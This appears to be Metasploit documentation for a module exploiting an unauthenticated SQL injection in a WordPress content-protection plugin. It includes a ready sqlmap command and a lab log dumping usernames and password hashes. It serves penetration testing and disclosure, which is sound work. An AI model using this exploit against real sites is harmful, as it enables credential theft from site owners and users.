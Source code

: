 ## Vulnerable Application

Secure Copy Content Protection and Content Locking, a WordPress plugin,
prior to 2.8.2 is affected by an unauthenticated SQL injection via the
`sccp_id[]` parameter.

The plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/secure-copy-content-protection.2.8.1.zip)

This module slightly replicates sqlmap running as:

```
sqlmap --dbms=mysql -u "http://1.1.1.1/wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)*&type=json" --technique T -T wp_users -C user_login,user_pass --dump
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

## Scenarios

### Secure Copy Content Protection and Content Locking 2.8.1 on Wordpress 5.7.5 on Ubuntu 20.04

```
resource (secure_copy.rb)> use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
resource (secure_copy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (secure_copy.rb)> set verbose true
verbose => true
resource (secure_copy.rb)> set limit 1
limit => 1
resource (secure_copy.rb)> run
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/secure-copy-content-protection/readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/Readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/README.txt
[*] Found version 2.8.1 in the plugin
[+] Vulnerable version of Secure Copy Content Protection and Content Locking detected
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(dwOr) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Encoded to (select group_concat(dwOr) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x16,0)),ifnull(user_pass,repeat(0xa1,0))) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
